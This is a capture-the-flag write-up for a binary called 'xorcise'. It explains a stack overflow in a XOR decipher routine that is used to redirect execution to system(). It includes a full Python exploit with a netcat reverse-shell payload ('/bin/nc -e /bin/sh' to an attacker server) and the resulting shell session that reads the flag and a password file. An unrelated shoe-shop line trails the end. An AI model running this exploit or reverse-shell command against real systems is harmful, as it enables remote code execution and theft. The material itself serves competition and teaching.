

We've got the following binary and its source code: xorcise.
$ file xorcise xorcise: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
Looking attentively at source code you can find this interesting moment in decipher function:
#define BLOCK_SIZE 8
#define MAX_BLOCKS 16
uint32_t decipher(cipher_data *data, uint8_t *output)
{
uint8_t buf[MAX_BLOCKS * BLOCK_SIZE]; //128
uint32_t loop;
uint32_t block_index;
uint8_t xor_mask = 0x8F;
memcpy(buf, data->bytes, sizeof(buf));
if ((data->length / BLOCK_SIZE) > MAX_BLOCKS)
{
data->length = BLOCK_SIZE * MAX_BLOCKS;
}
for (loop = 0; loop < data->length; loop += 8)
{
for (block_index = 0; block_index < 8; ++block_index)
{
buf[loop+block_index]^=(xor_mask^data->key[block_index]);
}
}
memcpy(output, buf, sizeof(buf));
}Also you can get it looking at disasm or decompiled code:

I managed to find it firstly in C-source. So it looks like we can run loop for 8 additional bytes after the buffer buf because data->length is fully controlled by us. We just need to send data->length in range from 0x81 to 0x87. In this case external loop (with index variable loop) will run one more time and internal loop will rewrite other variables on the stack.
After looking at disassembler and some debugging in gdb we distinguished the following stack structure:
128 bytes of buf array
1 byte for xor_mask
4 bytes of block_index
4 bytes of loop
Not bad, we can overwrite xor_mask, block_index and 3 least significant bytes of loop. But when we corrupt block_index variable we are falling info infinite loop or breaking out of loop immediately.
After some analysis of memory addresses in the binary we understand another promising possibility.
We can set xor_mask to 0x00, then do not corrupt block_index (because it should be in range from 0 to 8 for loop execution) and then we set least significant byte of variable loop in such way that buf[loop + block_index] becomes reference for return address! Great! Go back to binary for searching best place for jump to.
Yeah...
So if we jump to 0x080492E9 from decipher, we will have on the stack the following data:
size_t bytes_read;
cipher_data encrypted;
uint8_t decrypted[128];
request *packet;
uint32_t authenticated;
memset(&encrypted, 0, sizeof(encrypted));
memset(&decrypted, 0, sizeof(decrypted));
bytes_read = recv(sockfd, (uint8_t *)&encrypted, sizeof(encrypted), 0);
if (bytes_read <= 0)
{
printf("Error: failed to read socket\n");
return -1;
}
if (encrypted.length > bytes_read)
{
printf("Error: invalid length in packet\n");
return -1;
}
decipher(&encrypted, decrypted);Address of encrypted buffer which is fully contolled by us. Excellent!
Data of encrypted is formed in the following way:
struct cipher_data
{
uint8_t length;
uint8_t key[8];
uint8_t bytes[128];
};- length should be in range from 0x81 to 0x87;
- key we suggest to be {xor_mask, 0x00, 0x00, 0x00, 0x00, offset_to_ret_addr, mask_for_lsb_of_ret_addr, mask_for_2nd_bytes_of_ret_addr} but zero-bytes will terminate our buffer for system(). So we can set xor_mask to 0x20 (space character), then all following bytes will be xored with 0x20 and null-characters become spaces.
- key[5] must be (16 + 3) because return address is offseted by 16 bytes from loop index on the stack. +3 should be added because we are going to modify least significant byte of loop in such way to get least significant byte of return address on next iteration of loop.
- key[6:7] must be 0x9194 ^ 0x92e9 = 0x037d - return address of normal execution flow xored with address of "call system" and xored with 0x20 of course.
- in bytes we can send our payload for system() call, just start it with ";" to cut off all first inpropriate bytes:
;/bin/nc -e /bin/sh <BALALAIKACR3W_EVIL_SERVER_IP> 16969
And now full exploit looks:
#!/usr/bin/python
from socket import create_connection
from struct import pack, unpack
L = '\x87' #length
xor = 0x20
k6 = 0x13
packet = L
packet_str = '\x00' * 5 + chr(k6) + '\x7D\x03'
for c in packet_str:
packet += chr( xor ^ ord(c))
pl = ';/bin/nc -e /bin/sh <BALALAIKACR3W_EVIL_SERVER_IP> 16969\x00'
padding = 'A' * (128 - len(pl))
packet += pl + padding
s = create_connection(('128.238.66.227', 24001))
s.send(packet)
print s.recv(1024)
s.close()Now just do something like that on our EVIL SERVER and wait for backconnect:
$ nc -lvvv -p 16969 listening on [any] 16969 ... 128.238.66.227: inverse host lookup failed: Unknown server error : Connection timed out connect to [BALALAIKACR3W_EVIL_SERVER_IP] from (UNKNOWN) [128.238.66.227] 45427
ls -la
total 44
drwxr-xr-x 2 root root 4096 Sep 20 00:18 .
drwxr-xr-x 3 root root 4096 Sep 14 14:14 ..
-rw-r--r-- 1 root root 30 Sep 20 00:18 flag.txt
-rw-r--r-- 1 root root 7 Sep 12 19:13 password.txt
-rwxr-xr-x 1 root root 12308 Sep 12 19:08 xorcise
-rw-r--r-- 1 root root 10248 Sep 10 13:16 xorcise.c
cat flag.txt
flag{code_exec>=crypto_break}
cat password.txt
pass123Flag is flag{code_exec>=crypto_break}
Sports Shoes | NIKE HOMME